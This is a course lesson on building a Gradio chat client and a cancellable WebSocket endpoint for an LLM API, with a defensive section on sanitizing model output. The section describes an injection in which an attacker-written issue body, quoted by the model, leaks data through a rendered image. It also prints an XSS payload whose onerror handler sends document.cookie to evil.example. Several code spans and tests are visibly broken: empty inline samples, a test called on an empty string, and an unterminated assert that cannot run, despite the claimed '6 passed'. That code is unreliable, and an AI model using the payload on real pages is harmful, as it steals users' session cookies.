



# Chat UIs & Streaming Transports

Your R2 demo from Day 34 called the model straight from the Gradio process: the API key sat in the UI, with no auth, quotas or traces, and users stared at a blank box for eight seconds. Now the product is the API you built on Day 77, so the UI has to be a thin client of it. It shows tokens and agent steps as they happen, lets users press Stop, and never lets an issue body like `` leak data. Today you build the R5 web UI and the one two-way channel Atlas needs.

## At a Glance

- **Time:** ~2 h core (+ optional Go Deeper) · **Depth:** working
- **Prerequisites:** [Day 71: Safe Output Handling](../../Phase_8_Safety_and_Security/Day_071_safe_output_handling/safe_output_handling.md), [Day 77: Serving LLM Apps with FastAPI](../../Phase_9_Production/Day_077_fastapi_serving/fastapi_serving.md); primer [HTTP, JSON & APIs](../../Appendix_Primers/A05_http_json_apis.md)
- **You'll build:** `atlas/ui/app.py`, a Gradio 6 chat over the Day 77 SSE API that renders tokens, tool steps and citations safely, plus `atlas/api/ws.py`, a WebSocket endpoint whose client can cancel an answer mid-stream.
- **Stops at:** React/Next.js front ends and design systems (see the optional [TypeScript primer](../../Appendix_Primers/A13_typescript_for_ai_engineers.md)).
- **Fast path:** Already ship chat UIs? Read "Name the Parts: Two Transports" and "Break It: Rendering Model Output", then do Exercise 3 (~40 min).
- **Cost:** ≈ $0.05 on `gpt-6-luna` through the Day 77 API (prices as of 2026-11, [verify](https://developers.openai.com/api/docs/pricing)). Every test in this lesson costs $0: the WebSocket demo uses a labelled stand-in producer.
- **New terms:** WebSocket, full-duplex vs one-way streaming, thin client, tool-step rendering, progress UX

> **Coming from Software Engineering?** Gradio is Swagger UI or Storybook for AI: a fast internal UI without a front-end team. Here it acts as a BFF (backend-for-frontend: a thin server that only talks to your API), so it holds no model key and no business logic. SSE versus WebSockets is server push versus a full-duplex socket, the same choice you make for a live dashboard versus a multiplayer game. Your XSS (cross-site scripting: attacker-controlled HTML or JavaScript running in your page) rules transfer unchanged. Model output is user-generated content, because an attacker can write the issue the model quotes.

## Users Judge the Interface

Ask the Day 34 demo about issue #209 (an OIDC login loop behind nginx) and three things go wrong. The screen stays blank for the whole agent run. Stop does nothing useful, because the model call carries on inside the UI process. And if the issue body holds a markdown image pointing at an attacker's host, the browser fetches it the moment the answer renders: exfiltration (sneaking data out, here inside an image URL) with zero clicks.

Users never see your eval scores. They see whether the first token arrives, whether something says the agent is working, and whether Stop works. That's **progress UX**: the status, timing and control signals that make a 20-second agent run feel deliberate, not broken. Targets for today: visible feedback in under 1 second, a TTFT (time to first token, from [Day 13](../../Phase_2_Building_with_LLM_APIs/Day_013_streaming/streaming.md)) close to the API's own, and a Stop that halts spending within one event.

## Radio vs Phone Call

Two transports cover almost every chat feature. **SSE** (server-sent events) is a radio broadcast: once you tune in, the server talks and you listen. A **WebSocket** (a two-way connection kept open between browser and server) is a phone call: either side can speak at any moment, including "stop!" while the other is mid-sentence.

Before reading any code, mark the direction of four Atlas features by hand:

| Atlas feature | Server → client | Client → server *while streaming* | Verdict |
|---|---|---|---|
| Stream an answer's tokens | yes | no | radio (SSE) |
| Show agent steps ("searching 3 docs…") | yes | no | radio (SSE) |
| Cancel an answer but keep the session | yes | yes ("cancel") | phone call (WebSocket) |
| Voice: audio both ways ([Day 81](../../Phase_9_Production/Day_081_voice_realtime/voice_realtime.md)) | yes | yes (audio frames) | phone call (WebSocket) |

Three of the four are one-way, which is the day's main rule: **default to SSE; add a WebSocket only when the client must talk while the server streams.** Even cancel works over SSE: hang up, and Day 77's `sse_stream` notices. The phone call is for cancelling *without* hanging up, many questions per connection, or audio.

## Name the Parts: Two Transports

A **one-way stream** (SSE) is a normal HTTP response that stays open while the server writes `event:`/`data:`/`id:` lines. Day 77 owns the wire format; here you only need its properties. A **full-duplex** stream (a WebSocket) starts as an HTTP request, upgrades to its own protocol, and then carries messages in both directions at once, text or binary.



That dotted line is the **thin client** boundary: the key, auth, quotas and traces live in the API, and the UI only turns events into pixels. You can swap the UI for React or a Slack bot without touching the AI code.

| Property | SSE | WebSocket |
|---|---|---|
| Direction | server → client | both, at any time |
| Built on | plain HTTP response | HTTP upgrade, then its own frames |
| Reconnect | browser `EventSource` reconnects and sends `Last-Event-ID` | you write it |
| Browser API limits | `EventSource` is GET-only, so POST streams use `fetch` | constructor can't set custom headers |
| Proxies, load balancers | works like any long HTTP response | needs upgrade support and long idle timeouts |
| Binary data | no (text lines) | yes |
| Auth | normal `Authorization` header | cookie, or a token in the **first message**, never the URL |

The last row is a real incident pattern: a JWT in the WebSocket URL (`?token=…`) lands in access and proxy logs. Use a header where the client allows it, otherwise the first message. [Day 83](../../Phase_9_Production/Day_083_auth_multitenancy_quotas/auth_multitenancy_quotas.md) shows the ticket pattern for WebSocket auth; R5 keeps this route unmounted until it is authenticated (Day 89).

**Decision rule:**

| If you need… | Pick |
|---|---|
| Token streaming to a browser, curl or another service | SSE |
| Agent progress and tool steps | SSE |
| "Stop" that ends the answer | SSE plus closing the connection |
| Cancel or re-ask while streaming, on one long-lived session | WebSocket |
| Audio or other binary data in both directions | WebSocket (Day 81) |

## A Chat on Top of the API

Start the Day 77 API in one terminal (`uv run python app.py` in that lesson's folder). This 20-line UI posts to `/v1/ask/stream` and yields the growing text. It holds no OpenAI key: it only knows `ATLAS_API_URL`.

```python
# script_id: day_079_chat_uis_streaming/first_chat
# Install: uv add gradio httpx2   Env: ATLAS_API_URL (default http://localhost:8000)
# Services: the Day 77 API must be running. Run: uv run python first_chat.py
import json
import os

import gradio as gr
import httpx2

API_URL = os.environ.get("ATLAS_API_URL", "http://localhost:8000")

def chat_fn(message: str, history: list[dict]):
    text, event = "", ""
    with httpx2.stream("POST", f"{API_URL}/v1/ask/stream", json={"question": message},
                       timeout=httpx2.Timeout(10.0, read=70.0)) as r:   # read > the 60 s API deadline
        for line in r.iter_lines():
            if line.startswith("event: "):
                event = line.removeprefix("event: ")
            elif line.startswith("data: ") and event == "token":
                text += json.loads(line.removeprefix("data: "))["text"]
                yield text              # the FULL text so far: Gradio replaces, it doesn't append

gr.ChatInterface(fn=chat_fn, title="Atlas").launch()
```

```text
* Running on local URL:  http://127.0.0.1:7860
```

Ask "How do retries back off?" and the answer types itself out, with a Stop button while it streams (your wording will differ). `chat_fn` is a **generator**: `return` instead of `yield` and the whole answer appears at once. It yields the *full* text each time, because Gradio replaces the message on every yield; yield only the new piece and you see one flickering token.

Gradio 6 has exactly one history format (messages), so `ChatInterface` has no `type=` argument. Code copied from older tutorials fails at startup with `TypeError: ChatInterface.__init__() got an unexpected keyword argument 'type'`.

## Break It: Rendering Model Output

The first chat prints model text straight into a markdown renderer. Now feed it what an attacker would put in an Orbit issue body. Atlas quotes issues when it investigates them, so the model will happily repeat this (the [Day 69](../../Phase_8_Safety_and_Security/Day_069_prompt_injection/prompt_injection.md) injection fixtures work the same way):

```text
Same loop here on 3.2.0. 

```

Gradio's `Chatbot` defaults to `sanitize_html=True` (confirmed by introspecting Gradio 6.31), which is built to strip handlers like `onerror`. The image is a different problem: to a sanitizer, `` is ordinary HTML, and rendering it *is* the leak. Which tags Gradio 6 keeps is not verified here (⚠ verify the allow-list in the Gradio frontend source if you need it), and nothing in this lesson depends on it, because Day 71's `safe_markdown()` runs first. It escapes every `<`, keeps links and images only for allow-listed `https` hosts, and fails closed into a code block if anything off-policy survives. Here's a compact copy, so this lesson stays self-contained.

The UI module is built in five blocks that stitch into one file, `atlas_ui.py`. Block one holds the config, a compact copy of the Day 77 event envelope, and a small SSE parser. `httpx2` is the HTTP library that `openai` 3.x installs, so you already have it.

```python
# script_id: day_079_chat_uis_streaming/atlas_ui
# atlas/ui/app.py: the R5 chat UI, a thin client of the Day 77 API. It holds no model key.
# Install: uv add gradio httpx2 markdown-it-py   Env: ATLAS_API_URL (default http://localhost:8000)
# Services: the Day 77 API. Run: uv run python atlas_ui.py   (tests: test_ui.py, no server needed)
from __future__ import annotations

import json
import os
import re
import time
from collections.abc import Iterable, Iterator
from typing import Literal
from urllib.parse import urlsplit

import gradio as gr
import httpx2
from markdown_it import MarkdownIt
from pydantic import BaseModel, Field

API_URL = os.environ.get("ATLAS_API_URL", "http://localhost:8000")   # http://api:8000 in compose

class AgentEvent(BaseModel):                # compact copy of Day 77's frozen envelope
    seq: int = 0
    type: Literal["status", "token", "tool_call", "tool_result", "citation", "component",
                  "final", "error", "cancelled", "done"]
    data: dict = Field(default_factory=dict)

def iter_sse(lines: Iterable[str]) -> Iterator[AgentEvent]:
    """SSE lines -> AgentEvents. A blank line ends an event; ':' lines are comments (pings)."""
    event, data, seq = "", [], 0
    for line in lines:
        if not line:
            if event and data:
                yield AgentEvent(seq=seq, type=event, data=json.loads("\n".join(data)))
            event, data = "", []
        elif not line.startswith(":"):
            field, _, value = line.partition(":")
            value = value.removeprefix(" ")
            if field == "event":
                event = value
            elif field == "data":
                data.append(value)
            elif field == "id" and value.isdigit():
                seq = int(value)
```

Block two is the Day 71 renderer policy, copied compactly. The regexes do the rewriting, a permissive markdown parser double-checks the result, and any leftover off-policy URL makes the function fail closed.

```python
# script_id: day_079_chat_uis_streaming/atlas_ui
# Compact copy of Day 71 safe_markdown(): markdown in, safe markdown out.
ALLOWED_HOSTS: frozenset[str] = frozenset({"docs.orbit.example", "github.com"})
_INLINE = re.compile(r'(!?)\[([^\]\n]*)\]\(\s*<?([^\s)>]*)>?(?:\s+"[^"\n]*")?\s*\)')
_REF_DEF = re.compile(r"^ {0,3}\[[^\]]+\]:\s*<?(\S+?)>?(?:\s+.*)?$", re.M)
_judge = MarkdownIt("commonmark", {"html": True}).enable("table")
_judge.validateLink = lambda url: True      # the judge sees every URL a lax renderer would

def is_allowed_url(url: str, allowed_hosts: frozenset[str] = ALLOWED_HOSTS) -> bool:
    try:
        parts = urlsplit(url.strip())
        parts.port                          # raises ValueError on a malformed port
    except ValueError:
        return False
    return parts.scheme == "https" and parts.hostname in allowed_hosts and parts.username is None

def _violations(md_text: str, allowed_hosts: frozenset[str]) -> list[str]:
    bad = []
    for block in _judge.parse(md_text):
        bad += [block.content] if block.type == "html_block" else []
        for tok in block.children or []:
            url = tok.attrGet("src") if tok.type == "image" else tok.attrGet("href")
            if tok.type == "html_inline" or (url is not None and not is_allowed_url(url, allowed_hosts)):
                bad.append(url or tok.content)
    return bad

def _fenced(text: str) -> str:
    """A code block no renderer interprets: the fence is longer than any backtick run inside."""
    fence = "`" * max(3, max((len(r) for r in re.findall(r"`+", text)), default=0) + 1)
    return f"{fence}text\n{text}\n{fence}"

def safe_markdown(text: str, *, allowed_hosts: frozenset[str] = ALLOWED_HOSTS) -> str:
    def fix(m: re.Match) -> str:
        bang, label, url = m.groups()
        return m.group(0) if is_allowed_url(url, allowed_hosts) else ("[image removed]" if bang else label)
    out = _INLINE.sub(fix, text.replace("<", "&lt;"))
    out = _REF_DEF.sub(lambda m: m.group(0) if is_allowed_url(m.group(1), allowed_hosts) else "", out)
    return _fenced(text) if _violations(out, allowed_hosts) else out   # fail closed
```

Run the attack text through it:

```text
Same loop here on 3.2.0. [image removed]
&lt;img src=x onerror="fetch('https://evil.example/'+document.cookie)">
```

The image is gone, the tag is inert text, and code fences survive. You don't control Gradio's renderer, so safe rendering is a pipeline step before it, not a component setting.

## Tool Steps, Citations and Progress

`/v1/investigate/stream` also sends `status`, `tool_call` and `tool_result` events, and the ask route sends `citation` events. **Tool-step rendering** means turning those into collapsible "thought" messages above the answer. In Gradio, a `gr.ChatMessage` whose `metadata` has a `title` renders as a collapsible step. `metadata["status"]` takes `"pending"` (a spinner, open) or `"done"` (closed), and `metadata["log"]` adds a subdued note next to the title (all confirmed in the Gradio 6.31 source).



Block three folds the event list into messages. It's a pure function, testable with no server, browser or key.

```python
# script_id: day_079_chat_uis_streaming/atlas_ui
_DOC_ID = re.compile(r"[a-z0-9][a-z0-9-]{0,80}")    # citation ids come from the API: still check

def _step(title: str, body: str) -> gr.ChatMessage:
    return gr.ChatMessage(content=body, metadata={"title": title[:80], "status": "done"})

def to_messages(events: list[AgentEvent]) -> list[gr.ChatMessage]:
    """Fold the event stream into collapsible steps followed by one sanitized answer."""
    steps: list[gr.ChatMessage] = []
    answer, cites, stopped = "", [], ""
    for e in events:
        d = e.data
        if e.type == "status" and "doc_ids" in d:
            steps.append(_step(f"Searched docs: {len(d['doc_ids'])} found", _fenced("\n".join(d["doc_ids"]))))
        elif e.type == "status":
            steps.append(_step(f"Step {d.get('step')}: {d.get('state', 'working')}", ""))
        elif e.type == "tool_call":   # args echo untrusted input: show them as inert code, truncated
            steps.append(_step(f"Tool: {d.get('name')}", _fenced(json.dumps(d.get("args"))[:500])))
        elif e.type == "tool_result" and steps:
            steps[-1].metadata["log"] = f"{d.get('chars', 0):,} chars back"
        elif e.type == "token":
            answer += d.get("text", "")
        elif e.type == "final" and "text" in d:     # investigate sends its answer whole
            answer = d["text"]
        elif e.type == "citation" and _DOC_ID.fullmatch(str(d.get("doc_id", ""))):
            cites.append(d["doc_id"])
        elif e.type in ("error", "cancelled"):
            stopped = str(d.get("code", e.type))
    if steps and not (events and events[-1].type in {"done", "error", "cancelled"}):
        steps[-1].metadata["status"] = "pending"    # spinner on the step that is still running
    body = safe_markdown(answer)
    if cites:
        body += "\n\nSources: " + ", ".join(f"`{c}`" for c in cites)
    if stopped:
        body += f"\n\n*Stopped: {stopped}*"
    return steps + ([gr.ChatMessage(content=body)] if body.strip() else [])
```

Block four is the handler. Typing `#209` investigates that issue; anything else is a docs question. It measures TTFT from the user's point of view, which includes the UI hop, and yields the *full* message list after every event.

```python
# script_id: day_079_chat_uis_streaming/atlas_ui
def _route(message: str) -> tuple[str, dict]:
    if m := re.fullmatch(r"\s*#(\d+)\s*", message):
        return "/v1/investigate/stream", {"issue_id": int(m.group(1))}
    return "/v1/ask/stream", {"question": message}

def chat_fn(message: str, history: list[dict]) -> Iterator[list[gr.ChatMessage]]:
    path, body = _route(message)            # history is unused: the Day 77 routes are single-turn
    events: list[AgentEvent] = []
    start, ttft = time.monotonic(), None
    try:
        with httpx2.stream("POST", API_URL + path, json=body,
                           timeout=httpx2.Timeout(10.0, read=130.0)) as r:   # > the 120 s agent deadline
            r.raise_for_status()
            for event in iter_sse(r.iter_lines()):
                if ttft is None and event.type in ("token", "final"):
                    ttft = time.monotonic() - start
                events.append(event)
                yield to_messages(events)   # Stop closes this generator, and `with` closes the HTTP stream
    except httpx2.HTTPError as exc:         # API down, 4xx/5xx, or a read timeout
        events.append(AgentEvent(type="error", data={"code": type(exc).__name__}))
    msgs = to_messages(events)
    if ttft is not None and msgs:
        msgs[-1].content += f"\n\n*TTFT {ttft:.1f} s*"
    yield msgs
```

Block five builds the app. `sanitize_html` and `render_markdown` are already the defaults; they're spelled out so a reviewer sees the choice. `cache_examples=False` stops Gradio from calling your API at startup to pre-compute example answers.

```python
# script_id: day_079_chat_uis_streaming/atlas_ui
def build_ui() -> gr.Blocks:
    chatbot = gr.Chatbot(height=560, sanitize_html=True, render_markdown=True)
    return gr.ChatInterface(               # ChatInterface is a gr.Blocks subclass
        fn=chat_fn, chatbot=chatbot, title="Atlas",
        description="Ask about Orbit, or type #209 to investigate an issue.",
        examples=["How do retries back off?", "#209"], cache_examples=False,
    )

if __name__ == "__main__":
    # In compose, set ATLAS_UI_HOST=0.0.0.0 so the container port is reachable (Day 82)
    build_ui().launch(server_name=os.environ.get("ATLAS_UI_HOST", "127.0.0.1"), server_port=7860)
```

With the Day 77 API running, `#209` shows a spinner on "Step 1: thinking" within a second, then "Tool: get_issue" with its log line, then the answer and its TTFT footer. That first spinner is the progress UX.

Tests pin this down with no server, replaying a recorded wire transcript that includes FastAPI's `: ping` comment.

```python
# script_id: day_079_chat_uis_streaming/test_ui
# Install: uv add --dev pytest   Run: uv run pytest test_ui.py -q   (no key, no server)
from atlas_ui import AgentEvent, iter_sse, safe_markdown, to_messages

WIRE = ('event: status\ndata: {"step":"retrieved","doc_ids":["dashboard-auth-oidc"]}\nid: 1\n\n'
        ': ping\n\nevent: token\ndata: {"text":"Set `trusted_proxies`."}\nid: 2\n\n'
        'event: citation\ndata: {"doc_id":"dashboard-auth-oidc"}\nid: 3\n\n'
        'event: done\ndata: {}\nid: 4\n\n').split("\n")

def test_parser_skips_pings_and_keeps_ids() -> None:
    events = list(iter_sse(WIRE))
    assert [e.type for e in events] == ["status", "token", "citation", "done"]
    assert events[-1].seq == 4

def test_steps_then_answer_with_sources() -> None:
    msgs = to_messages(list(iter_sse(WIRE)))
    assert msgs[0].metadata["title"] == "Searched docs: 1 found"
    assert "Sources: `dashboard-auth-oidc`" in msgs[-1].content

def test_running_step_shows_spinner() -> None:
    msgs = to_messages([AgentEvent(type="status", data={"step": 1, "state": "thinking"})])
    assert msgs[0].metadata["status"] == "pending"

def test_remote_image_is_removed() -> None:
    assert "evil.example" not in safe_markdown("")

def test_raw_html_is_escaped() -> None:
    assert "')

def test_allowed_link_and_code_survive() -> None:
    md = "See [retries](https://docs.orbit.example/retries-and-backoff).\n\n```toml\nmax = 3\n```"
    assert safe_markdown(md) == md

if __name__ == "__main__":
    tests = [f for n, f in dict(globals()).items() if n.startswith("test_")]
    for t in tests:
        t()
    print(f"{len(tests)} passed")
```

```text
6 passed
```

## Two-Way Traffic: a WebSocket Endpoint

A terminal client, and Day 81's voice channel, must say "cancel" without hanging up, then ask again on the same connection. The protocol is tiny and frozen, because Day 81 reuses it: the client sends `{"type": "ask", "question": …}` or `{"type": "cancel"}`, and the server sends Day 77 `AgentEvent`s, ending each answer with `done` or `cancelled`.



Block one copies the envelope and adds a **labelled stand-in** producer, so everything here runs with no key. It counts the tokens it produces and records when it's closed, which is what lets a test prove upstream generation really stopped.

```python
# script_id: day_079_chat_uis_streaming/ws_api
# atlas/api/ws.py: a two-way chat socket next to the Day 77 SSE routes.
# Install: uv add fastapi "uvicorn[standard]"   Env: none (the stand-in producer needs no key)
# Run: uv run python ws_api.py   then, in a second terminal: uv run python ws_client.py
import asyncio
import logging
from collections.abc import AsyncGenerator, Callable
from typing import Literal

from fastapi import FastAPI, WebSocket, WebSocketDisconnect
from pydantic import BaseModel, Field

log = logging.getLogger("atlas.ws")
AskStream = Callable[[str, int], AsyncGenerator["AgentEvent", None]]

class AgentEvent(BaseModel):                # compact copy of Day 77's frozen envelope
    seq: int = 0
    type: Literal["status", "token", "tool_call", "tool_result", "citation", "component",
                  "final", "error", "cancelled", "done"]
    data: dict = Field(default_factory=dict)

STATS = {"produced": 0, "closed": 0}       # lets tests prove the producer stopped

async def fake_ask_stream(question: str, top_k: int = 5) -> AsyncGenerator[AgentEvent, None]:
    """LABELLED STAND-IN for Day 77's services.ask_stream: ~50 canned tokens/s, no key."""
    try:
        yield AgentEvent(type="status", data={"step": "retrieved", "doc_ids": ["dashboard-auth-oidc"]})
        for i in range(200):
            await asyncio.sleep(0.02)       # stands in for waiting on the model
            STATS["produced"] += 1
            yield AgentEvent(type="token", data={"text": f"tok{i} "})
        yield AgentEvent(type="final", data={"usage": {"input_tokens": 900, "output_tokens": 200}})
    finally:
        STATS["closed"] += 1                # the real producer closes the OpenAI stream here
```

Block two is the endpoint. The key move is running two tasks at once: `pump` forwards events to the socket, and `listen` waits for the client's next message. `asyncio.wait(..., return_when=FIRST_COMPLETED)` returns as soon as either finishes. If `listen` wins, the user cancelled (or left), so you cancel `pump` and close the producer, which closes the upstream model stream.

```python
# script_id: day_079_chat_uis_streaming/ws_api
async def _pump(ws: WebSocket, events: AsyncGenerator[AgentEvent, None], n: dict) -> None:
    async for e in events:
        n["seq"] += 1
        n["tokens"] += e.type == "token"
        await ws.send_json(e.model_copy(update={"seq": n["seq"]}).model_dump())

async def _listen(ws: WebSocket) -> None:
    while (await ws.receive_json()).get("type") != "cancel":   # raises WebSocketDisconnect if gone
        await ws.send_json(AgentEvent(type="error", data={"code": "busy"}).model_dump())

async def answer_one(ws: WebSocket, events: AsyncGenerator[AgentEvent, None]) -> None:
    n = {"seq": 0, "tokens": 0}
    pump, listen = asyncio.create_task(_pump(ws, events, n)), asyncio.create_task(_listen(ws))
    try:
        done, _ = await asyncio.wait({pump, listen}, return_when=asyncio.FIRST_COMPLETED)
    finally:                                 # whatever happened, stop both and close upstream
        for t in (pump, listen):
            t.cancel()
        await asyncio.gather(pump, listen, return_exceptions=True)
        await events.aclose()
    if listen in done:
        listen.result()                      # re-raises WebSocketDisconnect if the client left
        log.info("cancelled after %d tokens", n["tokens"])
        await ws.send_json(AgentEvent(type="cancelled", data={"tokens": n["tokens"]}).model_dump())
    else:
        pump.result()                        # re-raises a producer error
        await ws.send_json(AgentEvent(type="done").model_dump())

async def ws_chat(websocket: WebSocket) -> None:
    await websocket.accept()
    try:
        while True:
            msg = await websocket.receive_json()
            if msg.get("type") == "ask" and str(msg.get("question", "")).strip():
                await answer_one(websocket, websocket.app.state.ask_stream(msg["question"], 5))
            elif msg.get("type") != "cancel":   # a late cancel after `done` is harmless
                await websocket.send_json(AgentEvent(type="error", data={"code": "bad_message"}).model_dump())
    except WebSocketDisconnect:              # catch this FIRST, before any broad handler
        log.info("client disconnected")      # answer_one already closed upstream
    except Exception:
        log.exception("ws failed")
        await websocket.close(code=1011)     # 1011 = internal error

def create_ws_app(ask_stream: AskStream | None = None) -> FastAPI:
    app = FastAPI(title="Atlas API (ws)")
    app.state.ask_stream = ask_stream or fake_ask_stream   # real: stub_services(client).ask_stream
    app.websocket("/v1/ws/chat")(ws_chat)
    return app

if __name__ == "__main__":
    import uvicorn
    logging.basicConfig(level=logging.INFO)
    uvicorn.run(create_ws_app(), host="127.0.0.1", port=8000)
```

On the real Day 77 app, register the same route in `create_app` and set `app.state.ask_stream = app.state.services.ask_stream` in `lifespan`.

The terminal client plays Stop by sending `cancel` after one second, using the `websockets` sync client (`openai[realtime]` installs it too).

```python
# script_id: day_079_chat_uis_streaming/ws_client
# Install: uv add websockets   Env: ATLAS_WS_URL (default ws://localhost:8000/v1/ws/chat)
# Services: ws_api.py running. Run: uv run python ws_client.py
import json
import os
import time

from websockets.sync.client import connect

WS_URL = os.environ.get("ATLAS_WS_URL", "ws://localhost:8000/v1/ws/chat")   # no token in the URL

with connect(WS_URL) as ws:
    ws.send(json.dumps({"type": "ask", "question": "Why does OIDC login loop behind nginx?"}))
    start, sent_cancel = time.monotonic(), False
    while True:
        event = json.loads(ws.recv(timeout=30))
        if event["type"] == "token":
            print(event["data"]["text"], end="", flush=True)
        if not sent_cancel and time.monotonic() - start > 1.0:
            ws.send(json.dumps({"type": "cancel"}))     # the Stop button
            sent_cancel = True
        if event["type"] in ("done", "cancelled", "error"):
            print(f"\n[{event['type']}] {event['data']}")
            break
```

```text
tok0 tok1 tok2 … tok46 tok47
[cancelled] {'tokens': 48}     (your count will differ)
# server log:
INFO:atlas.ws:cancelled after 48 tokens
INFO:atlas.ws:client disconnected
```

## Stop Buttons and Cancellation End-to-End

A Stop button is only honest if spending stops too. Follow the chain for the Gradio UI:

1. The user presses Stop. Gradio's queue closes your `chat_fn` generator (Gradio 6.31's sync-generator wrapper calls `iterator.close()`; see `gradio/utils.py`).
2. `close()` raises `GeneratorExit` at the paused `yield`, so the `with httpx2.stream(...)` block exits and closes the HTTP connection.
3. The Day 77 API sees the disconnect: FastAPI cancels the response generator, `sse_stream` closes the producer, and the producer's `finally` closes the OpenAI stream.

You can prove steps 1 and 2 without a browser. This probe drives a generator shaped like `chat_fn` the way Gradio does, then counts what was pulled after Stop:

```python
# script_id: day_079_chat_uis_streaming/stop_probe
# Stdlib only. Shows why a generator + `with` makes Stop close the upstream connection.
import contextlib
from collections.abc import Iterator

log: list[str] = []
pulled = 0

@contextlib.contextmanager
def fake_stream() -> Iterator[Iterator[str]]:      # stands in for httpx2.stream(...)
    def tokens() -> Iterator[str]:
        global pulled
        for i in range(1000):
            pulled += 1
            yield f"tok{i} "
    log.append("connection opened")
    try:
        yield tokens()
    finally:
        log.append("connection closed")            # httpx2 closes the socket here

def chat_fn(message: str) -> Iterator[str]:
    text = ""
    with fake_stream() as stream:
        for tok in stream:
            text += tok
            yield text

gen = chat_fn("hi")
for _ in range(5):
    next(gen)                                      # the UI renders five updates
at_stop = pulled
gen.close()                                        # what Gradio does when you press Stop
print(log, f"tokens after stop: {pulled - at_stop}")
```

```text
['connection opened', 'connection closed'] tokens after stop: 0
```

For the WebSocket path, the test below checks step 3 with the real handler, in-process, through FastAPI's `TestClient`:

```python
# script_id: day_079_chat_uis_streaming/test_ws
# Install: uv add --dev pytest   Run: uv run pytest test_ws.py -q   (no key, no server)
from fastapi.testclient import TestClient

from ws_api import STATS, create_ws_app

def read_answer(ws) -> list[dict]:
    events = []
    while not events or events[-1]["type"] not in ("done", "cancelled", "error"):
        events.append(ws.receive_json())
    return events

def test_cancel_stops_upstream() -> None:
    STATS.update(produced=0, closed=0)
    with TestClient(create_ws_app()) as client, client.websocket_connect("/v1/ws/chat") as ws:
        ws.send_json({"type": "ask", "question": "Why does OIDC login loop?"})
        for _ in range(6):                  # status + 5 tokens
            ws.receive_json()
        ws.send_json({"type": "cancel"})
        last = read_answer(ws)[-1]
    assert last["type"] == "cancelled"
    assert STATS["closed"] == 1             # the producer's finally ran: upstream closed
    assert STATS["produced"] - last["data"]["tokens"] <= 1   # ~0 tokens generated after stop

if __name__ == "__main__":
    test_cancel_stops_upstream()
    print("1 passed")
```

```text
1 passed
```

Billing for tokens generated before you hung up is provider behaviour (⚠ verify against the OpenAI docs). What you control, and what the test proves, is that no *new* work starts after Stop.

## Trade-offs: Which UI Stack?

| Option | Model | Good for | Watch out for |
|---|---|---|---|
| **Gradio 6** (`ChatInterface`) | event handlers, generators stream | internal tools, demos, the R5 UI | look-and-feel limits; only one history format, so no `type=` |
| **Streamlit** (`st.write_stream`) | the whole script reruns on every interaction | data apps with a chat panel | state lives in `st.session_state` or a rerun wipes it; a widget click mid-stream restarts the script |
